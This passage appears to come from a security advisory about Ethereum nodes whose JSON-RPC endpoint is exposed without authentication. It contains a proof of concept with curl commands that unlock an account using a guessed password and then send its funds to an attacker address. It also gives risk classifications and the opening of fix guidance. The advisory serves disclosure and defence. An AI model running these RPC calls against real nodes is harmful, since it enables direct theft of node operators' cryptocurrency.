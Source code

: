 **PoC for Unauthenticated Fund Theft (Conceptual):**

This PoC requires the RPC endpoint to expose a method like `personal_unlockAccount` or `eth_sendTransaction` without authentication.

1. **Identify Vulnerable Method:** An attacker discovers that `personal_unlockAccount` is exposed without authentication on `http://your-node-ip:8545`.
2. **Unlock Account:** The attacker sends an RPC request to unlock a known account on the node (e.g., if the node operator uses a simple or default password).
    
    ```json
    curl -X POST -H "Content-Type: application/json" --data '{"jsonrpc":"2.0","method":"personal_unlockAccount","params":["0x...your_account_address...", "your_easy_password", 300],"id":1}' http://your-node-ip:8545
    ```
    
3. **Send Funds:** Once the account is unlocked, the attacker can immediately send a transaction to transfer funds to their own address.
    
    ```json
    curl -X POST -H "Content-Type: application/json" --data '{"jsonrpc":"2.0","method":"eth_sendTransaction","params":[{"from": "0x...your_account_address...", "to": "0x...attacker_address...", "value": "0x..."}],"id":1}' http://your-node-ip:8545
    ```
    
    - **Expected Vulnerable Behavior:** The `personal_unlockAccount` call succeeds without requiring prior authentication, and the subsequent `eth_sendTransaction` is successfully broadcast, leading to fund transfer.

## 11. Risk Classification

This vulnerability falls under the category of **API4:2023 Unrestricted Resource Consumption** (formerly API4:2019 Lack of Resources & Rate Limiting) in the OWASP API Security Top 10. It also aligns with **CWE-770: Allocation of Resources Without Limits or Throttling** and **CWE-287: Improper Authentication** / **CWE-285: Improper Authorization**.

The primary risks include:

- **Financial Loss (Critical):** Direct theft of cryptocurrency assets through unauthorized transaction submission or manipulation (e.g., frontrunning).
- **Denial of Service (High):** Complete or partial unavailability of the blockchain node or its RPC services, leading to operational disruption, delayed transactions, and potential network instability.
- **Resource Exhaustion (High):** Overloading the node's CPU, memory, or network bandwidth, incurring excessive operational costs for the victim.
- **Data Exposure (Medium):** Unauthorized access to sensitive mempool data or other blockchain information that can be leveraged for further attacks.

The impact is amplified by the fact that such attacks can be mounted with relatively low cost to the attacker (Asymmetric Denial of Mempool Service) , making them highly attractive to malicious actors.

## 12. Fix & Patch Guidance

Addressing the "Potential Theft of Funds Due to Misconfigured RPC" vulnerability requires a multi-layered security approach focusing on proper configuration, robust access controls, and resource management.
